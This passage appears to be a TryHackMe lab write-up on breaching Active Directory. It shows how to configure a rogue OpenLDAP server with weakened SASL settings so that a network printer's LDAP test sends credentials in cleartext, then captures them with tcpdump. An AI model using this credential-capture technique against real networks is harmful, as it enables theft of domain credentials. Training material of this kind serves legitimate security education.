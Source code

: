 <img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Breaching%20Active%20Directory_14.png" width="50%" height="50%">  
Provide any Administrator password:  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Breaching%20Active%20Directory_15.png" width="50%" height="50%">  
Select MDB as the LDAP database to use:  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Breaching%20Active%20Directory_16.png" width="75%" height="75%">  
For the last two options, ensure the database is not removed when purged:  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Breaching%20Active%20Directory_17.png" width="35%" height="35%">  
Move old database files before a new one is created:  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Breaching%20Active%20Directory_18.png" width="75%" height="75%">  
Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. To do this, we need to create a new ldif file, called with the following content:
```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
The file has the following properties:
- olcSaslSecProps: Specifies the SASL security properties
- noanonymous: Disables mechanisms that support anonymous login
- minssf: Specifies the minimum acceptable security strength with 0, meaning no protection.

Now we can use the ldif file to patch our LDAP server using the following:
```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
We can verify that our rogue LDAP server's configuration has been applied using the following command (Note: If you are using Kali, you may not receive any output, however the configuration should have worked and you can continue with the next steps):
```
[thm@thm]$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

### Capturing LDAP Credentials
Our rogue LDAP server has now been configured. When we click the "Test Settings" at http://printer.za.tryhackme.com/settings.aspx, the authentication will occur in clear text. If you configured your rogue LDAP server correctly and it is downgrading the communication, you will receive the following error: "This distinguished name contains invalid syntax". If you receive this error, you can use a tcpdump to capture the credentials using the following command:
```
[thm@thm]$ sudo tcpdump -SX -i breachad tcp port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), snapshot length 262144 bytes
10:41:52.979933 IP 10.10.10.201.49834 > 10.10.10.57.ldap: Flags [P.], seq 4245946075:4245946151, ack 1113052386, win 8212, length 76
	0x0000:  4500 0074 b08c 4000 8006 20e2 0a0a 0ac9  E..t..@.........
	0x0010:  0a0a 0a39 c2aa 0185 fd13 fedb 4257 d4e2  ...9........BW..
	0x0020:  5018 2014 1382 0000 3084 0000 0046 0201  P.......0....F..
	0x0030:  0263 8400 0000 3d04 000a 0100 0a01 0002  .c....=.........
	0x0040:  0100 0201 7801 0100 870b 6f62 6a65 6374  ....x.....object
	0x0050:  636c 6173 7330 8400 0000 1904 1773 7570  class0.......sup
	0x0060:  706f 7274 6564 5341 534c 4d65 6368 616e  portedSASLMechan
	0x0070:  6973 6d73                                isms
10:41:52.979938 IP 10.10.10.57.ldap > 10.10.10.201.49834: Flags [.], ack 4245946151, win 502, length 0
	0x0000:  4500 0028 247d 4000 4006 ed3d 0a0a 0a39  E..($}@.@..=...9
	0x0010:  0a0a 0ac9 0185 c2aa 4257 d4e2 fd13 ff27  ........BW.....'
	0x0020:  5010 01f6 2930 0000                      P...)0..
```